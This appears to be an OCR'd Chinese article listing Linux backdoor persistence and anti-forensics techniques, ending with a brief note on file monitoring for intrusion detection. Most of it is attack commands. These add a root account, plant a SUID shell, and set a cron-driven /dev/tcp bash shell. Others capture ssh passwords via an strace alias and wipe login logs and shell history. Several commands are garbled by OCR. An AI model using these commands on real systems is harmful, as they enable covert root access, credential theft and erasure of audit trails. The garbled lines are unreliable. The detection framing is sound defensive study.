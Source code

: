 常见的后门权限维持技术如下，从常见的后门技术，对文件进行监控

（1）增加超级用户帐号

```
echo "mx7krshell:x:0:0::/:/bin/sh" >> /etc/passwd
```

（2）破解/嗅控用户密码

获得shadow文件后，用John the Ripper工具破解薄弱的用户密码，根据我所使用的情况下只能破解一些简单常用密码其它密码很难跑出来。除此之外可以使用hashcatGPU、或者分布式服务器来进行破解

（3）放置SUID Shell**

普通用户在本机运行/dev/.rootshell，即可获得一个root权限的shell。

```
cp /bin/bash /dev/.rootshell
chmod u+s /dev/.rootshell
```

（4）Crontab定时任务

```
(crontab -l;printf "*/5 * * * * exec9<> /dev/tcp/localhost/8080&&exec0<&9&&exec1>&92>&1&&/bin/bash --noprofile –I;rno crontab for`whoami`%100cn")|crontab –
```

（5）alias 后门当前用户目录下.bashrcalias ssh='strace -o /tmp/sshpwd-date '+%d%h%m%s'.log -e read,write,connect -s2048 ssh'

（6）pam 后门 or openssh修改pam_unix_auth.c，添加万能密码

等等，都需要新增加文件或者修改文件

### 清理痕迹之文件监控

(1) 仅清理当前用户： history -c

(2) 使系统不再保存命令记录：vi /etc/profile，找到HISTSIZE这个值，修改为0

(3) 删除记录删除登录失败记录：echo > /var/log/btmp删除登录成功记录：echo > /var/log/wtmp 删除日志记录：echo > /var/log/secure

(4) 不记录ssh公钥在本地.ssh目录中

```
ssh -o UserKnownHostsFile=/dev/null -T user@host /bin/bash –i
```

(5) 登录账户 w下管理员是看不到的

```
ssh -T somebody@8.8.8.8 /bin/bash –i
```

总结：

在入侵检测中对文件的监控需求分类大致可分为：

> a. 特定文件正在被那些进程操作 
>
> b. 特定进程正在操作那些文件
>
> c. 实时监控特定文件一段时间
>
> d. 特定的程序在执行过程中会操作那些文件 

Linux下“一切皆文件”，监控文件，就能掌控系统。从攻击者的角度对攻击点进行打点，将攻击者的一次完整性的攻击分阶段性，满足其中几个阶段性的步骤，判断为异常事件。